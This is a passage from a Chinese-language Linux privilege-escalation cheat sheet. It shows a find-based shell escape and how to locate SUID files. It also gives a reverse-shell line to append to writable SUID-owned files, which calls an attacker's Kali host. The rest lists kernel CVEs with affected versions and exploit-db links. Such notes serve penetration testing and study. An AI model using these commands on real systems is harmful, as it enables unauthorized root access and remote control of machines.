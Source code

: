 - find
    ```bash
    find . -exec /bin/sh \;
    ```

---

### suid

**找带 suid 的文件**

并不是说程序存在 suid 位就可以提权,还需要看程序的所有者

```bash
find / -perm -u=s 2>/dev/null
```
筛选出其中所有人有 rwx 权限的文件,添加如下一句话:
```bash
bash -i >& /dev/tcp/<kali-ip>/port 0>&1
```

---

## Linux系统漏洞

**CVE-2009-2698**
- 简介

    在 2.6.19 之前 Linux 内核中的(1) net/ipv4/udp.c 和(2) net/ipv6/udp.c 中的 udp 实现中的 udp_sendmsg 函数允许本地用户通过涉及 MSG_MORE 标志和 UDP 套接字的向量获得特权或导致拒绝服务(空指针取消引用和系统崩溃)。

- 影响范围
    - Linux kernel < 2.6.19
    - CentOS 4.4/4.5
    - Fedora Core 4/5/6 x86

- POC | Payload | exp
    - [Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1) - Linux_x86 local Exploit](https://www.exploit-db.com/exploits/9542)

**CVE-2016-4557**
- 简介

    Linuxkernel 是美国 Linux 基金会发布的开源操作系统 Linux 所使用的内核。NFSv4implementation 是其中的一个分布式文件系统协议。Linuxkernel4.5.5 之前版本的 kernel/bpf/verifier.c 文件中的‘replace_map_fd_with_map_ptr’函数存在安全漏洞，该漏洞源于程序没有正确维持 fd 数据结构体。本地攻击者可借助引用不正确文件描述符的 BPF 指令利用该漏洞获取权限或造成拒绝服务（释放后重用）。

- 影响范围

    - Linux kernel <= 4.5.4

- POC | Payload | exp
    - https://www.exploit-db.com/exploits/39772
    - https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip

**CVE-2016-5195 脏牛 Dirty COW**
- 简介
